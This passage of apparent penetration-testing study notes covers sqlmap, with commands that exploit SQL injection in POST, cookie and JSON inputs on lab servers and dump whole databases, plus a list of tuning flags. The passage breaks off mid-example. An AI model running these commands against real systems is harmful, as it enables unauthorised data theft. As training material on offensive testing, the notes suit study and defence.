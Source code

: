 * Besides customizing ```SQLMap``` requests, we can customize HTTP requests as well (JSON, XML formats supported).

* Example uses:

  ```shell
  # SQLi vulnerability in POST parameter 'id'
  # we can check Developer Tools to confirm the request
  sqlmap 'http://83.136.253.251:55415/case2.php' --data 'id=1' --batch --dump
  # --batch used for non-interactive session
  # --dump to dump all data
  ```

  ```shell
  # SQLi vulnerability in cookie value 'id=1'
  # we can copy the request 'copy as curl' from browser
  # ensure to add asterisk in cookie value to point SQLi
  sqlmap 'http://94.237.62.195:56158/case3.php' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.62.195:56158/' -H 'Connection: keep-alive' -H 'Cookie: id=1*' -H 'Upgrade-Insecure-Requests: 1' --batch --dump
  ```

  ```shell
  # SQLi vuln in JSON data {"id": 1}
  # we can intercept request using Burp Suite
  # and save it to a file

  sqlmap -r req-json.txt --batch --dump
  ```

* Attack tuning:

  * For special prefix and suffix values (if required), we can use the ```--prefix``` and ```--suffix``` flag respectively, which will enclose the vector value (payload)

  * Level (```--level```) and risk (```--risk```) can be specified to set payloads, based on success level and risk to target

  * For advanced tuning, we can look into the following options:

    * status codes - ```--code```
    * titles - ```--titles```
    * strings - ```--string```
    * text-only - ```--text-only```
    * techniques - ```--technique```
    * UNION SQLi tuning - ```--union-cols```, ```--union-char```, etc.
  
  * Example uses:

    ```shell
    # exploit OR SQLi vuln in GET param 'id'
    sqlmap -u 'http://83.136.253.251:33659/case5.php?id=1' --batch --dump
    # did not work
    # we can add some more parameters for tuning
